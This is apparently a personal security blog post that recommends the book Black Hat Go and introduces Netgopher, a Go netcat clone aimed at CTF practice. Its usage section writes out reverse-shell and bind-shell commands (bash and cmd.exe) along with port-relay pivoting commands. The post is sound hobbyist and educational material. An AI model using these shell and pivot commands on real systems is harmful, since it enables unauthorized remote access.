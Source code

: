 ```yaml
---
defaults:
  # _posts
  - scope:
      path: ""
      type: posts
    values:
      layout: single
      author_profile: true
      read_time: true
      comments: false
      share: true
      related: true
title:  "Black Hat Go and Netgopher"
date:   2021-01-30 21:00:00 +0000
header:
  overlay_image: /assets/images/posts/netgopher/go.gif
  teaser: /assets/images/posts/netgopher/go.gif
  caption: A very excellent animated gopher courtesy of [egonelbre](https://github.com/egonelbre) - Check them out, they're very nice!
excerpt: "New tool who dis?"
categories:
  - Labs & Hacking
  - Programming
tags:
  - Lab
  - Go
feature_row1:
  - image_path: /assets/images/posts/netgopher/BHG.webp
    excerpt: "Black Hat Go is an excellent No Starch Press book covering the use of Golang for Pen Testing, bug bounty and other offensive security practices. It also has a pretty cool cover."
    url: https://nostarch.com/blackhatgo
    btn_label: "Check out The Book"
    btn_class: "btn--inverse"
---
```


# What's all this about?

This week, I dug out my dusty copy of Black Hat Go, a book I've been getting around to reading for an age. Long story short - I loved the first couple of chapters so much I thought I'd recommend it right off the bat. 

{% include feature_row id="feature_row1" type="left" %}

## How will this change my life?

If you're into your offensive security, using Go will add a really nice new skillset to your box 
of tricks. Go will let you build tools (simple or complex, up to you!) that compile to a single 
(fairly small) 'blob', with simple concurrency and thread management, excellent cross-compilation 
(No Wine!) and a compilation/testing command that's almost as simple as developing a Python script.  

I'd suggest that working with Go like this is probably going to be a bit easier if you are 
comfortable working with Bash or maybe a little bit of Python (even just being able to read 
these will be enough), but don't let that hold you back if you're keen.  
I've gone through the first chapter or two so far and in just a couple of 
evenings, the book has guided me through some really nice simple TCP tooling. 

Most of my exposure to compiled languages comes from solving awkward Mathematical problems at Univeristy, so learning Go was a little outfacing because I wanted to avoid that again, but Go is giving me serious Python vibes in the ease of drafting, testing and availability/usability of (mostly core) Libraries, I think I might be a convert! If you're worried about the learning curve, you could always get the basic syntax and conventions down via Codeacademy, Sololearn etc.

# Netgopher

Enter Netgopher. *What is that?* I hear you cry? Well to be honest, it's the same example Netcat mimic that every person starting on Black Hat Go or Black Hat Python (Another No Starch belter) puts on their Github! That said, I've tried to make my super simple implementation of Netcat (built using Go, following the first two chapters of the book, of course) a bit more useful for myself as I work CTFs and so on. 

In addition to the usual example TCP connection functionality, I've Googled it up and added some better command line parsing and options goodness, whilst most of the Netcat 'extra features' (hexdump, UDP etc.) are not included, you can do enough to get by on simple HackTheBox/TryHackMe/VulnHub boxes with TCP connections, command execution and built-in  port relaying (best bit IMHO). 

{% include figure
image_path="/assets/images/posts/netgopher/relay.gif"
alt="Example gif of Relay usage" caption="An example of a connection to connection relay. A Pair of listeners are started, then a connecting relay is set up, by starting two connections via Netgopher." %}

So if you're curious about Go, maybe you're thinking about it, why not grab this script and have a go? If I can do this in a couple of evenings, you definately can! Read the source and play with NetGopher as set out below and happy hacking! 

The rest of this post is actually a glorified excerpt from the README on the [Github Repo](https://github.com/blackfell/ng){:target="_blank"}. So feel free to check that out too if you know where you're going from here.

# Installation

You can **but probably shouldn't**  get Netgopher by running the following command once you have Go installed:

```
❯ go get -u "github.com/blackfell/ng"
```

## Why not? 

Well installing this way will only install ng in your local $GOPATH; additionally, the binary will be fairly large and compiled only for your OS. 

I wrote this little application with CTFs in mind, meaning I want a smaller binary, preferably with multi-platform support, so... **grab a copy of all the [released binaries](https://github.com/Blackfell/ng/releases/tag/v0.1) instead**, which have been cross compileed and stripped down to ~ 2MB. 

# Examples

## Basic Usage

```
❯ ng                                                                                                 ─╯
Usage of ng:
  -c value
        Make a TCP Connection : -c 127.0.0.1:8080
  -e string
        Execute a command (quote) : -e '/bin/bash -i'
  -h    Print detailed usage.
  -l value
        Listen on a port : -l 4444
  -v    Display detailed progress messages.
```

The simplest examples are the classic netcat connect and listen functions. You can try this out with a listener/connection pair:

![Listener & connect example image](/assets/images/posts/netgopher/basic.gif)
{% include figure
image_path="/assets/images/posts/netgopher/basic.gif"
alt="Example gif of listener and connection usage" caption="An example of listeners and connections.A listener is started, then a connection made from the same host." %}

## CTF Use Cases
Some really common use cases I have are:
### Start an interactive Bash shell and connect back to a remote listener:
```
# Start a listener on your remote machine
❯ ng -l 1234
# Start the shell
❯ ng -c remote_host:1234 -e '/bin/bash -i'
```
### Start a shell on a bind listener.
This is useful in certail cases because you can create as many conenctions as you like - if your shell drops, just re-connect.
```
❯ ng -l 1234 -e 'cmd.exe'
# Now connect up to the shell
❯ ng -c serving_host:1234
C:\Windowss\system32>
^C
# Oh no! Your shell dropped - try again:
❯ ng -c serving_host:1234
C:\Windowss\system32>

```
### Forward a TCP port back to a remote listener:
```
# Start a relay on your local host
❯ ng -l 1234 -l 445
# On your remote host, forward a connection to local port 445
❯ ng -c local_hostname:1234 -c 127.0.0.1:445
# Your local machine now has access to that remote port 445 on 127.0.0.1:445
```
### Port 'spoofing' - Forward incoming connections to local port:
```
# Listen on port 1234 and forward connections to ssh server
❯ ng -l 1234 -c 127.0.0.1:22
```
# That's it!

So there you have it - if this peaked your interest why not grab a copy of Netgopher and have a messaround, or read the source? If you have any thoughts, I welcome issues, pulls, emails, tweets and more, just hit one of the socials below. I hope I've insipired you to check out some Go, or even program a little in something - anything.

## Get your copy on sale

It's also worth noting that if you're into this, [Humble Bundle](https://www.humblebundle.com/) also host periodic super cheap sales of No Starch Press books- that's where I got my copy (in eBook form) and it might be a good idea to keep your eyes peeled for similar sales in future. Peace!
